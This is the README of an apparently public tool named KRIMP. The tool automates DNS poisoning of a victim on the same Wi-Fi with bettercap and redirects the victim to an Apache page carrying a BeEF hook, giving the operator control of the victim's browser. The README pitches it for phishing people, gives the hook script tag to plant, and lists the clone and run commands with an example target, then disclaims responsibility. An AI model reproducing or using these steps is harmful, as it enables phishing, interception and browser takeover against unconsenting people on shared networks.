 # KRIMP
```
                   ▄█   ▄█▄    ▄████████  ▄█    ▄▄▄▄███▄▄▄▄      ▄███████▄ 
                   ███ ▄███▀   ███    ███ ███  ▄██▀▀▀███▀▀▀██▄   ███    ███ 
                   ███▐██▀     ███    ███ ███▌ ███   ███   ███   ███    ███ 
                  ▄█████▀     ▄███▄▄▄▄██▀ ███▌ ███   ███   ███   ███    ███ 
                 ▀▀█████▄    ▀▀███▀▀▀▀▀   ███▌ ███   ███   ███ ▀█████████▀  
                   ███▐██▄   ▀███████████ ███  ███   ███   ███   ███        
                   ███ ▀███▄   ███    ███ ███  ███   ███   ███   ███        
                   ███   ▀█▀   ███    ███ █▀    ▀█   ███   █▀   ▄████▀      
                   ▀           ███    ███                                   
  ```
  
Do you ever want to phish someone (ETHICALLY) and u cant seem to find a good url? Well I got you covered. 

This tool automates the process of DNS poisoning a target on your wifi, by doing this you can make a custom URL and redirecting your IP, which is hosting apache, to this URL. Once the target is on this page, you will have full access to their browser because of the beEF hook.  

**This tool is in its alpha stage, more automation will come**

## Pre-requisites
1. You will need to have beEf installed
2. You will need to have bettercap installed
3. You will need to have gnome-terminal installed
4. You will need to have apache2 installed

You will also need an index.html file inside of your /var/www/html folder with a beef hook, add this to a html file to hook it with beef:

`<script src="http://<local ip>:3000/hook.js"></script>`

## Configurate the script
- Change the directories in the script to your installation of beEF and bettercap.

## Running the script

`git clone https://github.com/SysGerm/krimp.git`
`chmod +x krimp.sh`
`./krimp.sh DOMAIN LOCAL-TARGET-IP`

Example: 

`./krimp.sh sysgerm.com 192.168.0.4`
### Extra
At the moment, this tool is only used to hack people on your own wifi, more features will come over time, like over WAN.

#### Responsibility
I am not responsible for any actions u take with this tool.

